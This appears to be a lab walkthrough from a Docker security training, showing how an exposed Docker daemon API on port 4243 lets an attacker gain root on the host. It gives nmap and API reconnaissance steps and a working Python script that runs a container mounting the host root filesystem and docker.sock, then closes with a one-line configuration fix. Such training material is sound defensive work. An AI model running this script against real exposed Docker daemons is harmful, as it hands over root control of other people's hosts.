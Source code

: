 # **`Docker Daemon Configuration`**

###### A malicious user who gains access Docker API, can gain access to the host machine with root permissions.


Step 1: Run an nmap scan on the VM to get the list of ports that are open. `nmap 127.0.0.1 -sV -p 4243`

![](img/daemon-config-1.png)


Step 2: To check access to the docker API, access `http://localhost:4243/version` and `http://localhost:4243/images/json`
 
![](img/daemon-config-2.png)


Step 3: Activate the python virtual environment and run the script that will run a malicious container via. the docker API.

    #!/usr/bin/env python
    import docker
    client = docker.DockerClient(base_url='tcp://127.0.0.1:4243')
    
    # client = docker.DockerClient(base_url='tcp://<IP>:<PORT>')

    
    malicious_image = 'we45/docker-ui:latest'
    client.images.pull(malicious_image)
    port_key = {"{0}/tcp".format(6080): ('0.0.0.0', 6080)}
    
    client.containers.run(image=malicious_image, ports=port_key, volumes={'/': {'bind': '/rootFS/', 'mode': 'rw'}, '/var/run/docker.sock': {'bind': '/var/run/docker.sock', 'mode': 'rw'}}, detach=True)


![](img/daemon-config-3.png)


Step 4: On the browser, access the port mentioned in the script. `http://127.0.0.1:6080/vnc.html`

![](img/daemon-config-4.png)


Step 5: `Right-Click` and open the terminal. The user has UI access to the Host machine. 

![](img/daemon-config-5.png)


Step 6: To fix this issue, open `/etc/default/docker` and comment `DOCKER_OPTS`

![](img/daemon-config-6.png)

